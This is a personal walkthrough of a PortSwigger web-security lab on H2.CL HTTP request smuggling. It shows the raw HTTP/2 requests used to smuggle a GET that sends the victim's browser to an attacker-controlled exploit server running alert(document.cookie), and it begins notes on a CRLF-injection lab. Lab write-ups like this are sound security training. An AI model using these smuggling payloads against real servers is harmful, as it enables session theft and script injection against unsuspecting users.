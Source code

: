 
---
**Lab H2.CL request smuggling**
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.
To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.
- Sent a search query POST req to repeater, and trimmed it down to just the essential headers.
- Then performed an H/2 Smuggle Probe
- Sent that result to repeater
- Then edited the req even more and sent this to see if I could get a 404 response, 
because that means I can make the back-end  append any subsequent requests to the smuggled prefix.
>POST / HTTP/2 
>Host: YOUR-LAB-ID.web-security-academy.net 
>Content-Length: 0 
>
>0
>
>NETFLIXSUX
- Then smuggled a GET req  to the /resources path, using a random domain name. The reason is to see if it /resources is appended to it and if I get a 302 found response..this means that I can craft an exploit and smuggle a get req that will direct an unsuspecting user to my exploit server using the /resources path
- And for some reason were using a CL of 0. But hey, it worked. 
>POST / HTTP/2
>Host: ac431fe71e99be12c0542b47009f0047.web-security-academy.net
>Content-Length: 0
>
>0
>
>GET /resources HTTP/1.1
>Host: lukesmith.xyz
>Content-Length: 5
>
>x=1
And thats what I did to solve it.
Went to the exploit server and loaded the payload `alert(document.cookie)`
stored it, and pasted it's URL to the smuggled GET req..so it looked like this:
>POST / HTTP/2
>Host: ac431fe71e99be12c0542b47009f0047.web-security-academy.net
>Content-Length: 0
>
>0
>
>GET /resources HTTP/1.1
>Host: `exploit-ac0a1f0b1ebebe27c07b2bfb010e00a1.web-security-academy.net
>Content-Length: 5
>
>x=1
and the result after mutiple rapid requests and itermittent waiting..
>HTTP/2 200 OK
>Content-Type: text/html; charset=utf-8
>Set-Cookie: session=7Kx2NAv5aXQNaYEcbo8iglPGV75qcLBV; Secure; HttpOnly; SameSite=None
>Content-Length: 10310
`       <div class=container>
            ``<h4>Congratulations, you solved the lab!</h4>
            ``<div>`
---
**HTTP/2 request splitting via CRLF injection**
(Should be simmilar to what James Kettle pulled on Atlassian
And remeber try out his python turbo intruder above)
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.